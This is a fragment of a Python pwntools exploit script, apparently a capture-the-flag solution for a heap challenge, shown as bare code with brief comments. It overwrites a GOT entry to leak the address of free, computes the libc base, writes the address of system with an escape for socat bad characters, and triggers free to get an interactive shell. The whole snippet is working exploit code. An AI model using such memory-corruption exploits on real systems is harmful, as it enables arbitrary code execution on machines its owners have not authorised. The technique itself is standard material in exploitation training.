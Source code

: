 ```python
# but strlen@got holds a PLT address, so let's change the GOT entry for the leak
edit(3, p64(elf.got['free']))

# have to do this one part at a time to grab the address
p.sendline('2')
p.sendlineafter('Index: ', '0')

if args.REMOTE:
    p.recvuntil('0\r\n')

free_leak = u64(p.recv(6) + b'\x00\x00')
log.success('Free Leak: ' + hex(free_leak))
libc.address = free_leak - libc.symbols['free']
log.success('Libc base: ' + hex(libc.address))

p.recvuntil('Data: ')                       # just receive the rest

# send system
system = p64(libc.symbols['system'])

if args.REMOTE:
    system = system.replace(b'\x7f', b'\x16\x7f')   # socat badchars - \x7f interpreted as backspace, escape with \x16

p.sendline(system)

free(1)

p.interactive()
```
